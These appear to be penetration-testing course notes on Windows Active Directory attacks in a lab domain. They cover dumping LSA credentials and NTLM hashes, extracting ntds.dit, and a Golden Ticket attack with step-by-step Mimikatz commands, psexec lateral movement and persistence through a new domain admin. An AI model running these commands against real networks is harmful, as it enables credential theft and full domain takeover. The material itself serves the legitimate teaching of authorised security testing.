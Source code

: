* **lsa** is the LOCAL SECURITY AUTHORITY, it's a protected subsystem in Windows Authentication, it creates and authenticates login sessions through the local computer
* what we are looking for in the output is usernames and NTLM hashes, we could take those hashes offline and try to crack them and if we can crack them we need to know what % of those hashes we are able to crack and relay those numbers back to a client to report to them about their password policy, if it's strong or weak. If we're cracking 50% of those hashes their policy is weak, on the other hand if we're cracking only 10% of them that suggests a strong password policy.
* we can also try to download the ***ntds.dit*** which will contain all the credentials as well

#### Golden Ticket Attack and Pass The Ticket Attack

##### What is a Golden Ticket and why do we care?

* we dumped the KDC's TGT account, that's the Kerberos Ticet Granting Ticket account that allows us to generate tickets
* what is we have the hash of that account, guess who's got to generate Kerberos Ticket Granting Tickets? We are :)
* With that we will have complete access to the entire Domain, all the machines!

### Golden Ticket Attack with Mimikatz

* `mimikatz.exe`
* `privilege::debug`
* `lsadump::lsa /inject /name:krbtgt`
* open up a note pad and copy from output: SID and the NTLM hash
* `kerberos::golden /User:Administrator /domain:marvel.local /sid:<copy it from notepad> /krbtgt:<copy the hash from notepad> /id:500 /ptt`
* ***id:500*** is the ID of an admin account and ***/ptt*** is for ***pass the ticket***
* we are generating a golden ticket and then will pass that ticket along to our current session and utilize it to open up a command prompt and access any computer on the network we want
* `misc::cmd` this will pop up a cmd window and in that window we are utilizing the Golden Ticket that we just created
* to take this a step furter we could download ***psexec.py*** to this computer hence this was the whole intent of the creation of psexec, to access computers `psexec.exe \\THEPUNISHER cmd.exe`
* **presistence:** once you own a Golden Ticket you can create a new user, make it a domain admin, most systems are picking it up, try better with a ***silver ticket***
